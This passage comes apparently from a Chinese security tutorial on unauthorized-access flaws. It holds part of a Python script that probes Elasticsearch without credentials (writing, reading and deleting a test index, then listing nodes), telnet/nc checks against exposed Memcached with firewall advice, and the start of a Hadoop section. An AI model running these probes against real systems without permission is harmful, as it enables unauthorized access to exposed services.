 ```
        print('[+] {} -> 成功创建测试节点unauth_text'.format(ip))
        es.index(index="unauth_text", doc_type="test-type", id=2, body={"text": "text"})
        print('[+] {} -> 成功往节点unauth_text插入数据'.format(ip))
        ret = es.get(index="unauth_text", doc_type="test-type", id=2)
        print('[+] {} -> 成功获取节点unauth_text数据 : {}'.format(ip, ret))
        es.indices.delete(index='unauth_text')
        print('[+] {} -> 清除测试节点unauth_text数据'.format(ip))
        print('[ok] {} -> 存在ElasticSearch未授权漏洞'.format(ip))
    
        print('尝试获取节点信息：↓')
        text = json.loads(requests.get(url='http://{}:{}/_nodes'.format(ip, port), timeout=5).text)
        nodes_total = text['_nodes']['total']
        nodes = list(text['nodes'].keys())
        print('[ok] {} -> [{}] : {}'.format(ip, nodes_total, nodes))
    
    except Exception as e:
        error = e.args
        print('[-] -> {}  error : {}'.format(ip, error))
    
        

    python3 elasticsearch_unauth.py 192.168.1.4 9200
```

    
        

* * *

###### Memcache

默认端口11211

提示连接成功表示漏洞存在

    telnet <target> 11211，或 nc -vv <target> 11211
    
        

Memcached端口是对外开放的，用nc或Telne可以直接登录，查看信息，增加修改都可以-
**修复建议**

    memcached设置监听内网或配置防火墙限制非必要的远程访问
    
        

参考

    https://www.cnblogs.com/mrhonest/p/10881389.html
    
        

* * *

###### Hadoop

Hadoop是一个由Apache基金会所开发的分布式系统基础架构-
用户可以在不了解分布式底层细节的情况下，开发分布式程序-
充分利用集群的威力进行高速运算和存储-
在默认情况下，Hadoop允许任意用户访问管理接口
